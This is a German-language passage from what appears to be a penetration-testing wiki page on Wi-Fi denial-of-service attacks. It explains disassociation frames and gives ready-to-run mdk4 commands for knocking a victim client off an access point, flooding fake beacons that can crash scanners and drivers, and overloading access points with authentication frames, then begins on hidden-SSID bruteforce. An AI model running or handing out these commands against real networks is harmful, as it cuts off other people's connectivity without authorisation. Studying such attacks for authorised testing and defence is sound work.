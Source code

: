 ### Disassoziationspakete

**Disassoziationspakete**, ähnlich wie Deauthentifizierungspakete, sind eine Art von Management-Frame, die in Wi-Fi-Netzwerken verwendet werden. Diese Pakete dienen dazu, die Verbindung zwischen einem Gerät (wie einem Laptop oder Smartphone) und einem Access Point (AP) zu trennen. Der Hauptunterschied zwischen Disassoziation und Deauthentifizierung liegt in ihren Nutzungsszenarien. Während ein AP **Deauthentifizierungspakete sendet, um unerwünschte Geräte ausdrücklich aus dem Netzwerk zu entfernen, werden Disassoziationspakete typischerweise gesendet, wenn der AP heruntergefahren wird**, neu gestartet wird oder sich bewegt, wodurch die Trennung aller verbundenen Knoten erforderlich wird.

**Dieser Angriff kann mit mdk4 (Modus "d") durchgeführt werden:**
```bash
# -c <channel>
# -b victim_client_mac.txt contains the MAC address of the device to eliminate
# -e WifiName is the name of the wifi
# -B BSSID is the BSSID of the AP
# Notice that these and other parameters aare optional, you could give onli the ESSID and md4k will automatically search for it, wait for finding clients and deauthenticate them
mdk4 wlan0mon d -c 5 -b victim_client_mac.txt -E WifiName -B EF:60:69:D7:69:2F
```
### **Weitere DOS-Angriffe mit mdk4**

**In** [**hier**](https://en.kali.tools/?p=864)**.**

**ANGRIFFSMODUS b: Beacon Flooding**

Sendet Beacon-Frames, um gefälschte APs bei Clients anzuzeigen. Dies kann manchmal Netzwerk-Scanner und sogar Treiber zum Absturz bringen!
```bash
# -a Use also non-printable caracters in generated SSIDs and create SSIDs that break the 32-byte limit
# -w n (create Open) t (Create WPA/TKIP) a (Create WPA2/AES)
# -m use real BSSIDS
# All the parameters are optional and you could load ESSIDs from a file
mdk4 wlan0mon b -a -w nta -m
```
**ANGRIFFSMODUS a: Authentifizierungs-Denial-of-Service**

Das Senden von Authentifizierungsrahmen an alle erreichbaren Access Points (APs) im Bereich kann diese APs überlasten, insbesondere wenn zahlreiche Clients beteiligt sind. Dieser intensive Datenverkehr kann zu Systeminstabilität führen, wodurch einige APs einfrieren oder sogar zurückgesetzt werden.
```bash
# -a BSSID send random data from random clients to try the DoS
# -i BSSID capture and repeat pakets from authenticated clients
# -m use real MACs
# only -a or -i can be used
mdk4 wlan0mon a [-i EF:60:69:D7:69:2F] [-a EF:60:69:D7:69:2F] -m
```
**ANGRIFFSMODUS p: SSID-Abfrage und Bruteforce**

Die Abfrage von Access Points (APs) überprüft, ob ein SSID ordnungsgemäß angezeigt wird und bestätigt die Reichweite des APs. Diese Technik, kombiniert mit **Bruteforce versteckter SSIDs** mit oder ohne Wortliste, hilft dabei, verborgene Netzwerke zu identifizieren und darauf zuzugreifen.
